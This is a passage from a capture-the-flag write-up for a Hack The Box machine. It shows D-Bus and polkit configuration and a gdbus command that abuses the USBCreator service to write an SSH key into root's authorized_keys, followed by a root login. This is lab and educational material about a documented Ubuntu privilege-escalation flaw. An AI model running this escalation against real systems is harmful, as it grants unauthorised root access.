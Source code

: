 ```bash
    <allow own="com.ubuntu.USBCreator"/>
  </policy>

  <!-- Allow anyone to invoke methods (further constrained by
       PolicyKit privileges -->
  <policy context="default">
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="com.ubuntu.USBCreator"/>
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="org.freedesktop.DBus.Introspectable"/>
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="org.freedesktop.DBus.Properties"/>
  </policy>

</busconfig>

cat /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```
Only root has write permission for these files. I start researching and find a recent article published about using USBCreator D-Bus to escalate to root: https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/. Most importantly it seems I do not need to know nadav's credentials (which I don't know) to do it. Essentially by taking advantage of unsantitized input being given to a privileged process we can perform arbritary actions as the privileged user, in this case root.  
The usb-creator-helper process is indeed running as root.
```bash
nadav@passage:~$ ps -aux | grep usb
nadav     43693  0.0  0.0  21292   936 pts/25   S+   18:33   0:00 grep --color=auto usb
root      95338  0.0  0.4 235528 19828 ?        Sl   07:56   0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
Just like what is explained in the reference, a polkit query is used to determine authorization. Unfortunately I can't follow any further than this because the polkit configuration is read-only for root. However, I can hope that dd is implemented in the same way with no input sanitization and just see what happens.

### 7. Escalate to root
Given that the consequence of this vulnerability is a means to write files to arbritary locations as root, the first thing to try is writing the paul user's SSH public key to root's .ssh/authorized_keys file.
```bash
nadav@passage:/tmp/.novisibleexploitstuff$ cp ~/.ssh/authorized_keys . && gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator  --method com.ubuntu.USBCreator.Image $(pwd)/authorized_keys /root/.ssh/authorized_keys true
()
```
Then I can login as root over SSH.
```bash
kali@kali:~/Desktop/htb/passage$ ssh -i paul_id_rsa root@passage.htb
load pubkey "paul_id_rsa": invalid format
Last login: Thu Sep 24 07:58:09 2020 from 10.10.15.29
root@passage:~# whoami
root
```
